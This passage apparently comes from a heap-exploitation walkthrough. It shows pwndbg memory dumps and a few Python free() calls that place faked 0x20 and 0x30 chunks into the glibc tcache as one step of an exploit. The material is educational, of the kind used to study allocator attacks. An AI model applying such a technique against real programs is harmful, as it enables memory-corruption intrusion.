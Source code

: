 It will look like the following:
```
pwndbg> vis 100
[...]

0x55c91b8cba40	0x0000000000000000	0x0000000000000021	........!.......
0x55c91b8cba50	0x0031204452415547	0x0000000000000000	GUARD 1.........
0x55c91b8cba60	0x0000000000000000	0x00000000000001b1	................
0x55c91b8cba70	0x3131313131313131	0x3131313131313131	1111111111111111

[...]

0x55c91b8cbb80	0x3131313131313131	0x0000000000000021	11111111!.......
0x55c91b8cbb90	0x3143314331433143	0x3143314331433143	C1C1C1C1C1C1C1C1

[...]

0x55c91b8cbca0	0x3144314431443144	0x0000000000000021	D1D1D1D1!.......
0x55c91b8cbcb0	0x0032204452415547	0x0000000000000000	GUARD 2.........
0x55c91b8cbcc0	0x0000000000000000	0x00000000000001b1	................
0x55c91b8cbcd0	0x3232323232323232	0x3232323232323232	2222222222222222

[...]

0x55c91b8cbdd0	0x3232323232323232	0x3232323232323232	2222222222222222
0x55c91b8cbde0	0x3232323232323232	0x0000000000000031	222222221.......
0x55c91b8cbdf0	0x3243324332433243	0x3243324332433243	C2C2C2C2C2C2C2C2

[...]

0x55c91b8cbf00	0x3244324432443244	0x0000000000000021	D2D2D2D2!.......
0x55c91b8cbf10	0x0033204452415547	0x0000000000000000	GUARD 3.........
0x55c91b8cbf20	0x0000000000000000	0x000000000001f0e1	................	 <-- Top chunk

pwndbg> telescope &alloc_arr 60
[...]
13:0098│  0x55c91abee0f8 (alloc_arr+152) —▸ 0x55c91b8cbb90 ◂— 0x3143314331433143 ('C1C1C1C1')
[...]
18:00c0│  0x55c91abee120 (alloc_arr+192) —▸ 0x55c91b8cbdf0 ◂— 0x3243324332433243 ('C2C2C2C2')
[...]
... ↓     30 skipped
```

As you can see, `alloc_arr` now contains pointers to the two newly faked `0x20` and `0x30` chunks, which we can then proceed to `free` and index in to the `t-cache`:
```python
free(c1) # 0x21 t-cache entry
free(c2) # 0x31 t-cache entry
free(unsorted2)
free(unsorted1)
```

Now, the heap looks like the following after freeing:
```
0x55692f69ea40	0x0000000000000000	0x0000000000000021	........!.......
0x55692f69ea50	0x0031204452415547	0x0000000000000000	GUARD 1.........
0x55692f69ea60	0x0000000000000000	0x00000000000001b1	................
0x55692f69ea70	0x0000556c79fb1a4e	0x4484565b2543af74	N..ylU..t.C%[V.D <-- tcachebins[0x1b0][0/2]
0x55692f69ea80	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69ea90	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eaa0	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eab0	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eac0	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69ead0	0x3131313131313131	0x3131313131313131	1111111111111111
0x55692f69eae0	0x3131313131313131	0x3131313131313131	1111111111111111
```